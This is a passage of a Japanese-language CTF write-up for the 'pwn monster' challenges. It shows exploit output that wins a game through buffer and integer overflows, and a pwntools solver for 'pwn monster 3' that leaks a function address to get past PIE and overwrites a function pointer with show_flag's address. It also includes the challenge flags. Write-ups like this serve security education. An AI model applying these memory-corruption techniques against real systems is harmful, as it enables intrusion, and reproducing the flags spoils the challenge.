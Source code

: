 ```
Rival Turn.
Your monster took 9999 damage!
[You] AAAAAAAAAAAAAAAA`������/��������pwnchu HP: 3458764513820531040
[Rival] pwnchu HP: 3458764513820550928
Your Turn.
Rival monster took -3458764513820540929 damage!
[You] AAAAAAAAAAAAAAAA`������/��������pwnchu HP: 3458764513820531040
[Rival] pwnchu HP: 6917529027641091857
Rival Turn.
Your monster took 9999 damage!
[You] AAAAAAAAAAAAAAAAQ������/��������pwnchu HP: 3458764513820521041
[Rival] pwnchu HP: 6917529027641091857
Your Turn.
Rival monster took -3458764513820540929 damage!
[You] AAAAAAAAAAAAAAAAQ������/��������pwnchu HP: 3458764513820521041
[Rival] pwnchu HP: -8070450532247918830
Win!
nitic_ctf{buffer_and_1nteger_overfl0w}

```

Flag: `nitic_ctf{buffer_and_1nteger_overfl0w}`

### pwn monster 3

問題文内で言及されている通り本問題では `PIE` という実行バイナリのセキュリティ機構が有効化されており、単純に呼び出す関数のアドレスを `show_flag` 関数のアドレスに書き換えるだけではFlagを入手することができません。`objdump` 等を用いることで `cry` 関数と `show_flag` 関数のオフセットを把握し、出力される `cry` 関数のアドレスからベースアドレスを求め、それに `show_flag` 関数のオフセットを加算したアドレスを入力することでFlagを入手することができます。

Solver:

```python
from pwn import *
from struct import pack

r = remote('35.200.120.35', 9003)

r.recvuntil('|cry()   | ')
base_addr = int(r.recvuntil(' |')[:-2], 16) - 0x134e

payload = b'A' * 32
payload += pack('<Q', base_addr + 0x1286)

r.sendlineafter('Input name: ', payload)
r.interactive()
```

Output:

```
> python .\solve.py
[x] Opening connection to 35.200.120.35 on port 9003
[x] Opening connection to 35.200.120.35 on port 9003: Trying 35.200.120.35
[+] Opening connection to 35.200.120.35 on port 9003: Done
[*] Switching to interactive mode
+--------+--------------------+----------------------+
|name    | 0x4141414141414141 |             AAAAAAAA |
|        | 0x4141414141414141 |             AAAAAAAA |
|HP      | 0x4141414141414141 |  4702111234474983745 |
|ATK     | 0x4141414141414141 |  4702111234474983745 |
|cry()   | 0x0000561bd7fc3286 |                      |
+--------+--------------------+----------------------+
OK, Nice name.
Let's battle with Rival! If you win, give you FLAG.
[You] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�2�� HP: 4702111234474983745
[Rival] pwnchu HP: 9999
```